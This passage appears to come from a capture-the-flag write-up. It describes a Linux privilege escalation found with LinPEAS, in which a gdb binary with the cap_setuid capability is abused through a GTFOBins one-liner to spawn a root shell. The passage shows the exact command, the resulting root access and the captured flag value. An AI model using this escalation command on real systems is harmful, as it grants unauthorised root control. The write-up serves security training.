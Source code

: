 LinPEAS successfully ran and discovered a privesc window via a binary application with privileged capabilities.

More specifically, it detected ```/usr/bin/gdb``` with ```cap_setuid+ep``` capabilities. Meaning, it had the ability to manipulate its own process UID to that of a different user, including ```root```.

Therefore, using GTFObins, I exploited the exposed capability.

![image](https://user-images.githubusercontent.com/45502375/197659617-1a8f2ac0-d3d4-4d80-b1d4-57a571dc0981.png)

```
which gdb
/usr/bin/gdb

/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".

whoami
root
```

All I had to do now was get the flag in ```/root```.

```
cd /root

ls
proof.txt

cat proof.txt
SunCSR_Team.af6d45da1f1181347b9e2139f23c6a5b
```
